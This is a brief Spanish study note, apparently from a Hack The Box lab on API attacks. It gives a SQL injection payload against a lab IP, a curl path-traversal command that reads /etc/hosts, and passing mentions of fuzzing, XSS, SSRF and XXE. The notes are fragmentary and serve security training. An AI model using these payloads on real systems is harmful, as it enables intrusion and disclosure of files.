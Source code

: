 ## API Attacks

Fuzzear como loco valores -> `http://caca/FUZZ=caca`

En el ejemplo de HTB el valor es id, ademas se le puede hacer una SQLi
`http://10.129.202.133:3003/?id=3+OR+1+=+1+--+-`

tambien se puede explotar LFI 

````shell-session
curl "http://<TARGET IP>:3000/api/download/..%2f..%2f..%2f..%2fetc%2fhosts"
````

Tambine XSS si el valor que pongamos se ve reflejado : 
` http://<TARGET IP>:3000/api/download/test_value`

También aplicable a ssrf 

tambien xxe 
Imágenes/
